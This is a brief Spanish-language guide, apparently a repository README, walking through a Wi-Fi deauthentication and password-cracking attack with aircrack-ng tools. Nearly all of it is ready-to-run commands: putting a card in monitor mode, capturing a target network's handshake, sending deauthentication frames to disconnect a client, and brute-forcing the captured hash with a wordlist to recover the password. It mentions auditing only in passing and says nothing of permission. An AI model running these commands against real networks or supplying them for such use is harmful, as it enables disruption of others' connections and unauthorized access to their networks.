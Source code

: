 # Deauth a redes inalambricas
Verificamos las tarjetas de red

`$ sudo airmon-ng`

Seleccionamos la tarjeta de red que tengamos disponible

`$ sudo airmon-ng start wlan0`

Iniciamos la captura de las redes inalambricas

`$ sudo airodump-ng wlan0mon`

Seleccionamos el canal y la direccion MAC a auditar

`$ sudo airodump-ng -c 11 --bssid [MAC ADDRESS] -w captura wlan0mon`

Iniciamos el ataque de desautenticar al equipo conectado

`$ sudo aireplay-ng --deauth 50 -a [MAC ADDRESS] --ignore-negative-one wlan0mon`

Crackeamos el hash para que muestre la contraseña en texto plano

`$ sudo aircrack-ng -w Escritorio/diccionario.txt Escritorio/captura-01.cap`

Detenemos el modo monitor

`$ sudo airmon-ng stop wlan0mon`
